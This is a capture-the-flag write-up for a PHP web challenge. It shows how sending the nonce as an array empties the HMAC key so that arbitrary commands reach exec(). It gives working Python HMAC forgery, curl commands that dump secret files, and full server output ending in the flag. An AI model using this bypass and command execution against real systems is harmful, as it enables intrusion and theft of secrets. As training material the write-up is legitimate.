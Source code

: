 # Web CTF Final H-Duck

The target endpoint (`/`) implements the following logic in PHP, fount in `backup.zip`:

```php
include('vars.php');
if (empty($_POST['hmac']) || empty($_POST['host'])) {
    header('HTTP/1.0 400 Bad Request');
    exit;
}

$secret = get_var("SECRET");
if (isset($_POST['nonce']))
    $secret = hash_hmac('sha256', $_POST['nonce'], $secret);

$hmac = hash_hmac('sha256', $_POST['host'], $secret);

if ($hmac !== $_POST['hmac']) {
    header('HTTP/1.0 403 Forbidden');
    exit;
}

echo exec($_POST['host']);
```

* **SECRET** is retrieved via `get_var("SECRET")` from `vars.php`.
* An optional **nonce** modifies the secret via `hash_hmac('sha256', nonce, secret)`.
* The server then HMACs the `host` command with that secret and compares to the client’s `hmac`.
* Only on a valid match will `exec(host)` be invoked.

---

## Bypassing the HMAC Check

* **Without** a `nonce` parameter, the server uses the raw `SECRET` as the key for HMAC(`host`).
* **With** any `nonce` parameter set, PHP does `isset($_POST['nonce'])===true` and recomputes:

  ```php
  $secret = hash_hmac('sha256', $_POST['nonce'], $secret);
  ```

  * **But** if `$_POST['nonce']` is an array (e.g., `nonce[]`), `hash_hmac()` returns **false**.
  * On the next line, PHP treats that `false` as the empty string `""` when computing the final HMAC of `host`.

By sending `nonce[]`, we force the server to HMAC with an **empty key**.

### Creating the Empty-Key HMAC

For an arbitrary command `CMD`, compute:

```
HMAC = HMAC_SHA256(key="", data=CMD)
```

```python
import hmac, hashlib
H = hmac.new(b"", b"CMD_STRING", hashlib.sha256).hexdigest()
print(H)
```

---

### Listing Files

We also go base64 of `vars.template.php`:

```bash
ndrei@DESKTOP-52JT2BC:~$ curl -v -i -X POST http://ctf-13.security.cs.pub.ro:8001/ \
  -d "host=base64 -w0 vars.template.php" \
  -d "nonce[]=1" \
  -d "hmac=6778a655c2f97ad8996f4e2f0785a01886ff4feaa250ab2dd76e6061c9a52a37" \
  -H "User-Agent: Mozilla/5.0"
Note: Unnecessary use of -X or --request, POST is already inferred.
* Host ctf-13.security.cs.pub.ro:8001 was resolved.
* IPv6: (none)
* IPv4: 141.85.224.110
*   Trying 141.85.224.110:8001...
* Connected to ctf-13.security.cs.pub.ro (141.85.224.110) port 8001
> POST / HTTP/1.1
> Host: ctf-13.security.cs.pub.ro:8001
> Accept: */*
> User-Agent: Mozilla/5.0
> Content-Length: 113
> Content-Type: application/x-www-form-urlencoded
>
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< Date: Sat, 26 Jul 2025 12:16:23 GMT
Date: Sat, 26 Jul 2025 12:16:23 GMT
< Server: Apache/2.4.38 (Debian)
Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.2.34
X-Powered-By: PHP/7.2.34
< Vary: Accept-Encoding
Vary: Accept-Encoding
< Content-Length: 488
Content-Length: 488
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8

<
<br />
<b>Warning</b>:  hash_hmac() expects parameter 2 to be string, array given in <b>/var/www/html/index.php</b> on line <b>12</b><br />
* Connection #0 to host ctf-13.security.cs.pub.ro left intact
PD9waHAKICAgIGZ1bmN0aW9uIGdldF92YXIoJG5hbWUpIHsKICAgICAgICBzd2l0Y2goJG5hbWUpIHsKICAgICAgICAgICAgY2FzZSAnU0VDUkVUJzoKICAgICAgICAgICAgICAgIHJldHVybiAnUVhyemo1UHJhZHF0WTl2eSc7CiAgICAgICAgICAgIGNhc2UgJ0ZMQUcnOgogICAgICAgICAgICAgICAgcmV0dXJuICdfX1RFTVBMQVRFX18nOwogICAgICAgICAgICBkZWZhdWx0OgogICAgICAgICAgICAgICAgcmV0dXJuICcnOwogICAgICAgIH0KICAgIH0KPz4Kndrei@DESKTOP-52JT2BC:~$
```

Decoding it showed a php code:

```php
<?php
    function get_var($name) {
        switch($name) {
            case 'SECRET':
                return 'QXrzj5PradqtY9vy';
            case 'FLAG':
                return '__TEMPLATE__';
            default:
                return '';
        }
    }
?>
```


### Dumping Server Variables

The actual flag lives in `vars.php`.  Repeat with:

```bash
CMD='sh -c "base64 -w0 vars.php"'
HMAC=$(python3 - <<'EOF'
import hmac, hashlib
print(hmac.new(b"", b'base64 -w0 vars.php', hashlib.sha256).hexdigest())
EOF
)
curl -s -X POST http://target/ \
  -d "host=$CMD" \
  -d "nonce[]=1" \
  -d "hmac=$HMAC" \
| grep -v hash_hmac() | tail -n1 > vars.php.b64
base64 -d vars.php.b64 > vars.php
```

Extract the flag from the PHP switch:

```bash
grep -Po "case 'FLAG'\s*:\s*return\s*'\K[^']+" vars.php
```

---

### Final Flag

```
SSS{n3v3r_r0ll_y0ur_0wn_crypt0}
```





```bash
ndrei@DESKTOP-52JT2BC:~$ CMD='sh -c "php -r '\''include \"vars.php\"; echo get_var(\"FLAG\");'\'' 2>/dev/null"'

HMAC=$(python3 - << 'EOF'
import hmac, hashlib
cmd = b'sh -c "php -r \'include \\"vars.php\\"; echo get_var(\\"FLAG\\");\' 2>/dev/null"'
print(hmac.new(b"", cmd, hashlib.sha256).hexdigest())
EOF
)
echo "Using HMAC: $HMAC"
Using HMAC: 3c71ddc57f237b68e03e078b4c8b4e53f6e345a7c4fabe40591ed2e3d87cb489
ndrei@DESKTOP-52JT2BC:~$ curl -v -i -X POST http://ctf-13.security.cs.pub.ro:8001/ \
  -d "host=$CMD" \
  -d "nonce[]=1" \
  -d "hmac=$HMAC" \
  -H "User-Agent: Mozilla/5.0"
Note: Unnecessary use of -X or --request, POST is already inferred.
* Host ctf-13.security.cs.pub.ro:8001 was resolved.
* IPv6: (none)
* IPv4: 141.85.224.110
*   Trying 141.85.224.110:8001...
* Connected to ctf-13.security.cs.pub.ro (141.85.224.110) port 8001
> POST / HTTP/1.1
> Host: ctf-13.security.cs.pub.ro:8001
> Accept: */*
> User-Agent: Mozilla/5.0
> Content-Length: 159
> Content-Type: application/x-www-form-urlencoded
>
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< Date: Sat, 26 Jul 2025 12:29:03 GMT
Date: Sat, 26 Jul 2025 12:29:03 GMT
< Server: Apache/2.4.38 (Debian)
Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.2.34
X-Powered-By: PHP/7.2.34
< Vary: Accept-Encoding
Vary: Accept-Encoding
< Content-Length: 171
Content-Length: 171
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8

<
<br />
<b>Warning</b>:  hash_hmac() expects parameter 2 to be string, array given in <b>/var/www/html/index.php</b> on line <b>12</b><br />
* Connection #0 to host ctf-13.security.cs.pub.ro left intact
SSS{n3v3r_r0ll_y0ur_0wn_crypt0}ndrei@DESKTOP-52JT2BC:~$
```

